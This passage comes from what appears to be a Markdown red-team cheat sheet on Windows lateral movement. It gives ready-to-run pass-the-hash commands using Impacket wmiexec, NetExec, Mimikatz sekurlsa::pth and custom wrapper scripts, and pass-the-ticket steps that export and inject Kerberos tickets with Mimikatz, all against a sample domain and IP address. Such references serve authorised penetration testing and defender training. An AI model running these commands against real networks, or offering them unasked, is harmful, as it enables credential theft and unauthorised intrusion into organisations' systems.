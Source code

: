 **Automated:**
```bash
# Using Mimikatz wrapper for token manipulation
./mimikatz-wrapper.py local creds
```

---

## Lateral Movement

### Pass-the-Hash

**Manual:**
```bash
# Using Impacket's wmiexec
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 contoso/administrator@192.168.1.100

# Using NetExec
netexec smb 192.168.1.100 -u administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0 -x whoami

# Using Mimikatz
sekurlsa::pth /user:administrator /domain:contoso.local /ntlm:31d6cfe0d16ae931b73c59d7e0c089c0 /run:cmd.exe
```

**Automated:**
```bash
# Using Mimikatz wrapper for Pass-the-Hash
./mimikatz-wrapper.py pth -t 192.168.1.100 -d contoso.local -u administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0 -c "whoami"

# Using Impacket toolkit
./impacket-toolkit.py wmiexec -t 192.168.1.100
```

### Pass-the-Ticket

**Manual:**
```bash
# Export tickets first
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
exit

# Inject a ticket
mimikatz.exe
privilege::debug
kerberos::ptt ticket.kirbi
exit

# Verify and use the ticket
klist
dir \\server\share
```
